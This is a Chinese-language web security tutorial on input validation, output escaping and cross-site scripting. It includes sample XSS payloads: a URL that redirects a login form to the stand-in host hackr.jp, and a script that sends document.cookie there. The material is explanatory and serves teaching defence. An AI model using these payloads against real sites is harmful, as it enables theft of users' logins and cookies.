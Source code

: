 实施 Web 应用的安全对策可大致分为以下两部分：

- 客户端的验证、
- Web 应用端（服务器端）的验证
  - 输入值验证
  - 输出值转义

![img](./assets/06.png)
> 图：验证数据的几个地方

多数情况下采用 JavaScript 在客户端验证数据。可是在客户端允许篡改数据或关闭 JavaScript，不适合将 JavaScript 验证作为安全的防范对策。
保留客户端验证只是为了尽早地辨识输入错误，起到提高 UI 体验的作用。

Web 应用端的输入值验证按 Web 应用内的处理则有可能被误认为是具有攻击性意义的代码。
输入值验证通常是指检查是否是符合系统业务逻辑的数值或检查字符编码等预防对策。

从数据库或文件系统、HTML、邮件等输出 Web 应用处理的数据之际，针对输出做值转义处理是一项至关重要的安全策略。
当输出值转义不完全时，会因触发攻击者传入的攻击代码，而给输出对象带来损害。










# 跨站脚本攻击（XSS）

跨站脚本攻击（Cross-site scripting，XSS）是指通过存在安全漏洞的 Web 网站注册用户的浏览器内运行非法的 HTML 标签或 JavaScript 进行的一种攻击。
动态创建的 HTML 部分有可能隐藏着安全漏洞。就这样，攻击者编写脚本设下陷阱，用户在自己的浏览器上运行时，一不小心就会受到被动攻击。

跨站脚本攻击有可能造成以下影响：

- 利用虚假输入表单骗取用户个人信息。 
- 利用脚本窃取用户的 Cookie 值，被害者在不知情的情况下，帮助攻击者发送恶意请求。 
- 显示伪造的文章或图片。



## 跨站脚本攻击案例

- **在动态生成 HTML 处发生**

  下面以编辑个人信息页面为例讲解跨站脚本攻击。下方界面显示了用户输入的个人信息内容。

  ![img](./assets/07.png)
  > 图：跨站脚本攻击的案例

  确认界面按原样显示在编辑界面输入的字符串。此处输入带有山口一郎这样的 HTML 标签的字符串。

  ![img](./assets/08.png)
  > 图：按照输入内容原样显示的机制

  此时的确认界面上，浏览器会把用户输入的 `<s>` 解析成 HTML 标签，然后显示删除线。
  删除线显示出来并不会造成太大的不利后果，但如果换成使用 script 标签将会如何呢。

- **XSS 是攻击者利用预先设置的陷阱触发的被动攻击**

  跨站脚本攻击属于被动攻击模式，因此攻击者会事先布置好用于攻击的陷阱。

  下图网站通过地址栏中 URI 的查询字段指定 ID，即相当于在表单内自动填写字符串的功能。而就在这个地方，隐藏着可执行跨站脚本攻击的漏洞。

  ![img](./assets/09.png)

  充分熟知此处漏洞特点的攻击者，于是就创建了下面这段嵌入恶意代码的 URL。并隐藏植入事先准备好的欺诈邮件中或 Web 页面内，诱使用户去点击该 URL。

  ```js
  http://example.jp/login?ID="><script>var+f=document.getElementById("login");+f.action="http://hackr.jp/pwget";+f.method==>"get";</script><span+s="
  ```

  浏览器打开该 URI 后，直观感觉没有发生任何变化，但设置好的脚本却偷偷开始运行了。
  当用户在表单内输入 ID 和密码之后，就会直接发送到攻击者的网站（也就是 hackr.jp），导致个人登录信息被窃取。

  ![img](./assets/10.png)
  
  > 对 http://example.jp/login?ID=yama 请求时对应的 HTML 源代码（摘录）

  ```html
  <div class="logo">
    <img src="/img/logo.gif" alt="E!拍卖会" />
  </div>
  <form action="http://example.jp/login" method="post" id="login">
  <div class="input_id">
    ID <input type="text" name="ID" value="yama" />
  </div>
  ```

  > http://example.jp/login?ID="><script>var+f=document.getElementById("login");+f.action="http://hackr.jp/pwget";+f.method="get";</script><span+s=" 对请求时对应的HTML源代码（摘录）

  ```html
  <div class="logo">
    <img src="/img/logo.gif" alt="E!拍卖会 />
  </div>
  <form action="http://example.jp/login" method="post" id="login">
  <div class="input_id">
    ID <input type="text" name="ID" value=""><script>var f=document.getElementById("login");f.action="http://hackr.jp/pwget";f.method="get";</script><span s="" />
  </div>
  ```



## 对用户 Cookie 的窃取攻击

除了在表单中设下圈套之外，下面那种恶意构造的脚本同样能够以跨站脚本攻击的方式，窃取到用户的 Cookie 信息。

```html
<script src=http://hackr.jp/xss.js></script>
```

该脚本内指定的 http://hackr.jp/xss.js 文件。即下面这段采用 JavaScript 编写的代码。

```js
var content = escape(document.cookie);
document.write("<img src=http://hackr.jp/?");
document.write(content);
document.write(">");
```

在存在可跨站脚本攻击安全漏洞的 Web 应用上执行上面这段 JavaScript 程序，即可访问到该 Web 应用所处域名下的 Cookie 信息。
然后这些信息会发送至攻击者的 Web 网站 http://hackr.jp/ ，记录在他的登录日志中。结果，攻击者就这样窃取到用户的 Cookie 信息了。

![img](./assets/11.png)
> 图：使用 XSS 攻击夺取 Cookie 信息









